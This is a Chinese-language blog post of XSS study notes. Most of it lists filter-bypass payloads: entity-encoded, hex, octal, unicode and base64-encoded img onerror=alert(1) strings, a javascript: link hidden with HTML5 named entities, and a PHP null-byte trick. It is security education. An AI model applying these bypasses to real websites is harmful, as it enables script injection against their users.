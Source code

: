 ```yaml
---
title: XSS学习笔记1
time: 2016.02.1 17:47:00
layout: post
tags:
- 信息安全
- Web
- XSS
excerpt: XSS学习的一些总结，包括实体编码，js编码，base64编码，和一些绕过黑名单检测的方法，最后还有一个fuzzing的福利^_^
    
---
```

### Entity编码
- HTML解析器在建立文档树的时候会针对节点内的Entity编码后传输,html实体编码本身存在的意义是防止与HTML本身语义标记的冲突。
	以下两个表示相同：

		<img src="http://www.example.com"> 
		<img src="ht&#x74;p&#x3a;//www.example.com">
	下面两个例子代码不会执行，因为，编码的是标签本身的结构而非节点内的内容：

		<img src&#x3d;"http://www.example.com"> 
		<img s&#x72;c="http://www.example.com">
		
- HTML实体编码有两种，10进制与16进制

{% highlight HTML %}
如把尖括号编码[ < ]  -----> html十进制: &#60;  html十六进制:&#x3c;
{% endhighlight %} 

- 比如有一个输出点：

		<img src="[代码]"> 
	且过滤了script < > / \ http: 以及各种危险字符。
	
	那么，我们可以在这里 闭合双引号 写事件: onerror=[html language="实体编码"][/html][/html]。
	构造代码：
		
		<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
	原代码：
		
		<img src="x" onerror="alert(1)">
	这里我用的是html十进制编码，也可以使用十六进制的html实体编码！

	之所以不用jsunicode 以及 js八进制跟js十六进制，是因为浏览器是不会在html标签里解析js中的那些编码的！所以我们在onerror=后面放js中的编码是不会解析的，也可以说浏览器会把它当作一个txt文件解析，解析结果仍然还是原来的数据。

- 有时，有些过滤器会过滤& #符号，此时我们就不能只用HTML实体编码了。但，如果此时的输出点是一个可以执行js的标签中，且输入点是一个url地址，那么我们可以这样构造：
	
		',alert(1)' ＝＝＝》
		html16进制编码 &#x27,alert(1)+&#x27
		＝》》url编码%26%23x27,alert(1)%2b%26%23x27
	说明：url编码用于绕过&＃的过滤

---
###  黑名单防御XSS的一些问题
一般程序做XSS防御的时候都会考虑上文到HTML编码问题（过滤&＃），也会拦截一些特殊的字符'"(){}<>:/;，但大多数过滤器会忽略下面的问题：

1. 忽略HTML5新增实体标签
{% highlight html %}
&colon; => [冒号]
&NewLine; => [换行]
case: <a href="javasc&NewLine;ript&colon;alert(1)">click</a>
{% endhighlight %}

2. Hex编码常规变异(增添多个0)
	
		对于<可编码为&#x00000003c;
3. Hex编码非常规变异（url＋多个0）
		
		对于<可编码为%26%23x00000000003c;
4. html编码去分号（html16进制编码的分号是可以去掉的）
		对于<可编码为&#x3c
		

---
### Javascript编码
js能识别的编码有：Jsunicode js8进制 js16进制

JS的注入点一般分为两种情况：

1. 输入的值存入某个变量，然后经过一系列变换最后出现在某个能把字符串当做JS代码来执行的函数里。该函数一般为：eval（），setTimeout（），setInterval（）...
2. 还有一种情况就是在一个搜索框内

	比如：
	
		var search = "可控点";
		document.getElementById().innerHTML=search;

对于上述情况，大多数程序都会过滤<> ' " & %等特殊字符

此时，我们就要尝试用js8进制和10进制进行绕过。

对于原代码为：

	<img src=x onerror=alert('xss')>

js八进制编码：
		
		\74\151\155\147\40\163\162\143\75\170\40\157\156\145\162\162\157\162\75\141\154\145\162\164\50\47\170\163\163\47\51\76
js16进制编码：

	\x3c\x69\x6d\x67\x20\x73\x72\x63\x3d\x78\x20\x6f\x6e\x65\x72\x72\x6f\x72\x3d\x61\x6c\x65\x72\x74\x28\x78\x73\x73\x29\x3e
 
JSunicode编码： 

	\u003c\u0069\u006d\u0067\u0020\u0073\u0072\u0063\u003d\u0078\u0020\u006f\u006e\u0065\u0072\u0072\u006f\u0072\u003d\u0061\u006c\u0065\u0072\u0074\u0028\u0027\u0078\u0073\u0073\u0027\u0029\u003e
	
测试以后，都能跳出这个界面：

![image](http://momomoxiaoxi.com/img/post/XSS/2.png)

注：在XSS中，字符数的长短也是一个很重要的问题！越短越好！
在asp的站中插XSS代码的时候，（存储型XSS），经常会因为插入的代码太长，导致数据库字段的长度不够，最终存不进去，报错的情况。所以，XSS的代码越短越好。

---
### base64编码
base64一般用于下列情况
	
	<a href="可控点">
	<iframe src="可控点">
	
如果这种情况下，程序过滤了<> ' " javascript的话，XSS可尝试利用base64编码
	
	<a href="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">test</a>

用chrome测试：
![image](http://momomoxiaoxi.com/img/post/XSS/3.png)

![image](http://momomoxiaoxi.com/img/post/XSS/4.png)

上图，当点击test是，浏览器就会以data协议对text/html进行解析，编码为base64，最终解析为<img src=x onerror=alert(1)>，然后成功弹窗。

--- 
### 空字符绕过
IE浏览器会自动忽略空字符，并解析剩下的代码，可以通过插入空字符绕过大多数采用正则匹配黑名单字符串的过滤器。

比如：
{% highlight php %}
<?php 
echo '<im'.chr(0).'g sr'.chr(0).'c=x onerror=ale'.chr(0).'rt(1)>';
?>
{% endhighlight %}


### 	Fuzzing
![image](http://momomoxiaoxi.com/img/post/XSS/1.png)

### 参考
1. http://taligarsiel.com/Projects/howbrowserswork1.htm
2. http://drops.wooyun.org/tips/147
